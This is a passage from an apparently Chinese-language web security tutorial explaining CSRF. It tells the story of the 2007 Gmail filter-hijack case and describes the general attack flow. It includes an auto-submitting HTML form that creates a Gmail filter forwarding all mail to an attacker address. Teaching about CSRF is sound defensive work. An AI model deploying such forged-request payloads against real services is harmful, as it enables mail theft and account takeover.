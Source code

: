 这一天，小明同学百无聊赖地刷着 Gmail 邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

{% note %}
甩卖比特币，一个只要998！！
{% endnote %}

聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的心态点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生......

在这平静的外表之下，黑客的攻击已然得手。小明的 Gmail 中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到 `haker AT hackermail.com`。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">
  <input type="hidden" name="cf2_emc" value="true"/>
  <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>
  .....
  <input type="hidden" name="irf" value="on"/>
  <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/>
</form>
<script>
  document.forms[0].submit();
</script>
```

1. 这个页面只要打开，就会向 Gmail 发送一个 Post 请求。请求中，执行了 “Create Filter” 命令，将所有的邮件，转发到 “hacker AT hakermail.com”
2. 小明由于刚刚就登陆了 Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail 的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器
3. 黑客可以查看小明的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己

小明很快打开 Gmail，找到了那条过滤器，将其删除。然而，已经泄露的邮件，已经被转让的域名，再也无法挽回了......

以上就是小明的悲惨遭遇。而“点开一个黑客的链接，所有邮件都被窃取”这种事情并不是杜撰的，此事件原型是 2007 年 [Gmail 的 CSRF 漏洞](https://www.davidairey.com/google-gmail-security-hijack/)。

#### 什么是 CSRF

{% note %}
CSRF（Cross-site request forgery）跨站请求伪造：**攻击者诱导受害者进入第三方网站**，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，**绕过后台的用户验证**，达到冒充用户对被攻击的网站执行某项操作的目的。
{% endnote %}

一个典型的 CSRF 攻击有着如下的流程：

1. 受害者登录 a.com，并保留了登录凭证（Cookie）
2. 攻击者引诱受害者访问了 b.com
3. b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带 a.com 的 Cookie
4. a.com 接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求
5. a.com 以受害者的名义执行了 act=xx
6. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让 a.com ∂执行了自己定义的操作

#### 几种常见的攻击类型

- GET 类型的 CSRF
